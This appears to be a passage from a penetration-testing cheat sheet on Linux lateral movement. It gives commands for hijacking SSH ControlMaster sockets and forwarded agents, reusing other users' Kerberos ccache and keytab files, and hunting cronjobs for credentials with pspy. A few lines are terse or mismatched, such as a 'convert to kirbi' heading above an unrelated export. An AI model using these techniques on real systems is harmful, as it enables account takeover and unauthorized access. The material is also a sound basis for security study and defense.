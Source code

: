 Any socket file like kevin@web03:22 in `/home/kevin/.ssh/controlmaster`

`ssh kevin@web03`

If logged in as root

`ssh -S /home/alice/.ssh/controlmaster\@alice@web03\:22 alice@web03`

### SSH Agent Forwarding

A -> B -> C: A has a session on B, and A's private key can access to both B and C

On B to access C

Normal user
```
ssh alice@web03
```
Privileged User
```
SSH_AUTH_SOCK=/tmp/ssh-xxx ssh-add -l

SSH_AUTH_SOCK=/tmp/ssh-xxx ssh alice@web03
```
### ccache file

- Contain request Kerberos tickets
```bash
/tmp/krb5cc_jack
```
- Convert ccache to kirbi file
```bash
export KRB5CCNAME=/tmp/krb5cc_george
```
### /etc/krb5.keytab

- Can be used for Kerberos authentication

### keytab file

- Contain Kerberos principle name and encrypted keys
```bash
/tmp/alice.keytab

/etc/crontab

kinit alice@red.com -k -t /tmp/alice.keytab
```
### pspy

- Hidden cronjobs (Could contain credentials)

### /opt/pbis

- Enumerate domain on Linux
